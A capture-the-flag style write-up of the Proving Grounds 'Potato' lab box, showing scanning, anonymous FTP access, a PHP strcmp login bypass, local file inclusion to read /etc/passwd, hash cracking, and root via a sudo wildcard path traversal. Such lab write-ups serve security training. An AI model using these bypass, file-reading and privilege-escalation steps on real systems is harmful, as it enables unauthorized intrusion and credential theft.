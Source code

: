 # PG Play
------------------------------------
### IP: 192.168.186.101
### Name: Potato
### Difficulty: Easy
### Community Rating: Intermediate
--------------------------------------------------

Nmap:

```
┌──(ryan㉿kali)-[~/PG/Play/Potato]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV -oN nmap.txt 192.168.186.101
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-07-26 07:28 CDT
Nmap scan report for 192.168.186.101
Host is up (0.082s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ef240eabd2b316b44b2e27c05f48798b (RSA)
|   256 f2d8353f4959858507e6a20e657a8c4b (ECDSA)
|_  256 0b2389c3c026d5645e93b7baf5147f3e (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Potato company
|_http-server-header: Apache/2.4.41 (Ubuntu)
2112/tcp open  ftp     ProFTPD
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--   1 ftp      ftp           901 Aug  2  2020 index.php.bak
|_-rw-r--r--   1 ftp      ftp            54 Aug  2  2020 welcome.msg
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.10 seconds
```

Looking at the page on port 80 we see a site seemingly under construction with an image of a potato:

![pgplay_potato_site.png](../assets/potato_assets/pgplay_potato_site.png)

I alos notice FTP running on 2112 has anonymous access enabled and I can see there are a few file in there.

Lets kick off some directory fuzzing while we check out FTP:

```
┌──(ryan㉿kali)-[~/PG/Play/Potato]
└─$ feroxbuster --url http://192.168.186.101 -q -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -x php html zip txt -o 80_dirs.txt
```

```
┌──(ryan㉿kali)-[~/PG/Play/Potato]
└─$ ftp 192.168.186.101 2112
Connected to 192.168.186.101.
220 ProFTPD Server (Debian) [::ffff:192.168.186.101]
Name (192.168.186.101:ryan): anonymous
331 Anonymous login ok, send your complete email address as your password
Password: 
230-Welcome, archive user anonymous@192.168.45.174 !
230-
230-The local time is: Fri Jul 26 12:32:45 2024
230-
230 Anonymous access granted, restrictions apply
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||49064|)
150 Opening ASCII mode data connection for file list
-rw-r--r--   1 ftp      ftp           901 Aug  2  2020 index.php.bak
-rw-r--r--   1 ftp      ftp            54 Aug  2  2020 welcome.msg
226 Transfer complete
ftp> get index.php.bak
local: index.php.bak remote: index.php.bak
229 Entering Extended Passive Mode (|||15673|)
150 Opening BINARY mode data connection for index.php.bak (901 bytes)
   901      837.18 KiB/s 
226 Transfer complete
901 bytes received in 00:00 (11.59 KiB/s)
ftp> get welcome.msg
local: welcome.msg remote: welcome.msg
229 Entering Extended Passive Mode (|||62215|)
150 Opening BINARY mode data connection for welcome.msg (54 bytes)
    54      165.31 KiB/s 
226 Transfer complete
54 bytes received in 00:00 (0.76 KiB/s)
```

Looking at welcome.msg:

```
┌──(ryan㉿kali)-[~/PG/Play/Potato]
└─$ cat welcome.msg 
Welcome, archive user %U@%R !

The local time is: %T
```

Opening index.php.bak we find credentials to the `/dashboard.php` endpoint:

pgplay_potato_index.png

However navigating to http://192.168.186.101/dashboard.php we get a 404 not found error. 

Turning back to our directory fuzzing we find an `/admin` page.

Navigating here we do find a login panel:

pgplay_potato_login.png

But our discovered credentials don't work here:

pgplay_potato_fail.png

### Exploitation/ FootHold

Going back and looking at the index.php.bak file more closely, we can see that the login panel is using `strcmp` for the POST request.

pgplay_potato_strcmp.png

There is a nice writeup of this type of bypass at https://blog.0daylabs.com/2015/09/21/csaw-web-200-write-up/

Essentially if we pass in `password[]=whatever` the brackets will create an empty array, setting `password` to 0 and PHP will (for some reason?) render `NULL == 0` as true. 

Lets capture a login request in Burp:

pgplay_potato_burp.png

Nice, that worked, We can now access the dashboard:

pgplay_potato_dashboard.png

Looking at the `logs` page we see we can select which log we'd like to view and it's displayed for us in browser.

pgplay_potato_logs.png

Lets capture this in Burp and see if we are able to access anything else using the functionality.

Nice, with a little playing around we were able to access `/etc/passwd`:

pgplay_potato_lfi1.png

And scrolling down in the file we find the password hash for webadmin:

```
webadmin:$1$webadmin$3sXBxGUtDGIFAcnNTNhi6/
```

Lets try cracking this with john:

We now have webadmin's credentials: `webadmin:dragon`

And we can use these to SSH i tot he target:

```
┌──(ryan㉿kali)-[~/PG/Play/Potato]
└─$ ssh webadmin@192.168.186.101                                       
The authenticity of host '192.168.186.101 (192.168.186.101)' can't be established.
ED25519 key fingerprint is SHA256:9DQds4tRzLVKtayQC3VgIo53wDRYtKzwBRgF14XKjCg.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.186.101' (ED25519) to the list of known hosts.
webadmin@192.168.186.101's password: 
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-42-generic x86_64)
```

We can now access the local.txt flag:

pgplay_potato_local_flag.png

### Privilege Escalation

Running `sudo -l` to see what our user can run with elevated permissions we find:

```
webadmin@serv:~$ sudo -l
[sudo] password for webadmin: 
Matching Defaults entries for webadmin on serv:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on serv:
    (ALL : ALL) /bin/nice /notes/*
```

Interesting. The wildcard is very dangerous here. Lets get a root shell by running:

```
webadmin@serv:/$ sudo /bin/nice /notes/../bin/bash
root@serv:/# whoami
root
root@serv:/# id
uid=0(root) gid=0(root) groups=0(root)
```

We can now grab the final flag:

pgplay_root_flag.png

Thanks for following along!

-Ryan

------------------------------------------



